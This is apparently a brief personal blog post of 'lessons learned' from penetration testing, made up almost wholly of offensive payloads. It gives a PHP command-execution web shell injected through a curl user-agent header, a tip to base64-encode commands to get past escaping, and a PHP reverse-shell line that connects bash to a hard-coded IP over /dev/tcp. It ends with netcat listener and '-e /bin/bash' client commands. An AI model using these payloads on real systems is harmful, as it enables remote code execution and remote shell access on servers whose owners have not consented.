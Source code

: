 ```yaml
---
layout: post
author: redle
title: Some leasons learned!
---
```


 Some leasons learned...

# PHP Injection:
## Use User Agent to avoid scape ' or "
```
$ curl -K file

file:
user-agent = "<?php system($_GET['cmd']) ?>"
```

## Base64 avoiding special chars:
> Use base64 to send the command, this avoid problem with special chas as : ',",;, and eliminate the scape of these chars.

## PHP Shell:
```
<?php system(\"/bin/bash -c 'bash -i >& /dev/tcp/172.20.1.32/9090 0>&1'\");?>
```

## Netcat:
```
# server
$ nc -lvp 9090
# client
$ nc <IP> <PORT> -e /bin/bash
```